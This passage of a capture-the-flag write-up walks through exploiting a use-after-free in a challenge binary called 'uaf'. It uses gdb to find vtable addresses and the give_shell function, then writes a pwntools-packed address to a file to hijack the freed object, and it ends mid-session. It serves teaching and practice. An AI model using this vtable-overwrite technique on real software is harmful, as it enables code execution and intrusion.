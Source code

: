 We can break right after we create the Man, and take another look:

```nasm
gdb-peda$ break *0x400f18
gdb-peda$ c
Continuing.
[----------------------------------registers-----------------------------------]
RAX: 0x18d5c50 --> 0x401570 --> 0x40117a (<_ZN5Human10give_shellEv>:	push   rbp)
RBX: 0x18d5c50 --> 0x401570 --> 0x40117a (<_ZN5Human10give_shellEv>:	push   rbp)
...
Breakpoint 2, 0x0000000000400f18 in main ()
```

This looks like what we'd want: `0x401570`.

Let's do the same for the Woman.

```python
...
RAX: 0x18d5ca0 --> 0x401550 --> 0x40117a (<_ZN5Human10give_shellEv>:	push   rbp)
RBX: 0x18d5ca0 --> 0x401550 --> 0x40117a (<_ZN5Human10give_shellEv>:	push   rbp)
...
```

After some googling, looks like there is a [info vtbl](https://visualgdb.com/gdbreference/commands/info_vtbl) command, which will show the Virtual Method table of a given object. However, that doesn't seem to help us at all, since no matter what it doesn't recognize the variables for the Human objects during debugging.

A workaround may be something like this:

```nasm
info variables .*Man
All variables matching regular expression ".*Man":

Non-debugging symbols:
0x0000000000401560  vtable for Man
0x00000000004015c8  typeinfo name for Man
0x00000000004015d0  typeinfo for Man
```

And then we can inspect the memory location manually:

```nasm
x/12a 0x0000000000401560
0x401560 <_ZTV3Man>:	0x0	0x4015d0 <_ZTI3Man>
0x401570 <_ZTV3Man+16>:	0x40117a <_ZN5Human10give_shellEv>	0x4012d2 <_ZN3Man9introduceEv>
0x401580 <_ZTV5Human>:	0x0	0x4015f0 <_ZTI5Human>
0x401590 <_ZTV5Human+16>:	0x40117a <_ZN5Human10give_shellEv>	0x401192 <_ZN5Human9introduceEv>
0x4015a0 <_ZTS5Woman>:	0x6e616d6f5735	0x0
0x4015b0 <_ZTI5Woman>:	0x602390 <_ZTVN10__cxxabiv120__si_class_type_infoE@@CXXABI_1.3+16>	0x4015a0 <_ZTS5Woman>
```

So indeed, `0x401570` is the addresses we want (can see it has two virtual function references, one for `give_shell` and the other for `introduce`). If we try to use that:

```nasm
python -c 'from pwn import *; print(p64(0x401570, endian="little"))' > /tmp/z3n0
./uaf 8 /tmp/z3n0
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
```